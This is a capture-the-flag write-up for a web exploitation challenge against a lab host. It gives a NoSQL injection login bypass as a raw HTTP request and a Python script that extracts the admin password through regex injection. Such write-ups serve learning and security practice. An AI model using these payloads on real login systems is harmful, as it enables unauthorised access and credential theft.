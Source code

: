 ```yaml
---
title: "Mechacore Monitoring System"
category: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 60
solves: -1
flags: 
 - THM{REDACTED}
 - THM{REDACTED}
---
```

> Mechacore again? Why do they keep buying from this brand? This looks like a monitoring system for one of Virelia's plants. We've bypassed their logins before, so let's do it once again. Maybe we can even try dumping the database for passwords this time.

---

## App flag

```http
POST /login.php HTTP/1.1
Host: 10.10.191.255
Content-Type: application/x-www-form-urlencoded

user=admin&pass[$ne]=admin
```

## Admin flag

```py
import requests
import string

URL = 'http://10.10.191.255/login.php'
charset = '{_}' + string.ascii_letters + string.digits + string.punctuation
found = 'THM{'
session = requests.Session()

while True:
    for ch in charset:
        trial = found + ch
        data = {
            'user': 'admin',
            'pass[$regex]': f'^{trial}'
        }
        r = session.post(URL, data=data, allow_redirects=False)

        if '/?err=1' not in r.headers.get('Location', ''):
            found += ch
            print(f'Found so far: {found}')
            break
    else:
        print(f'Final password: {found}')
        break
```
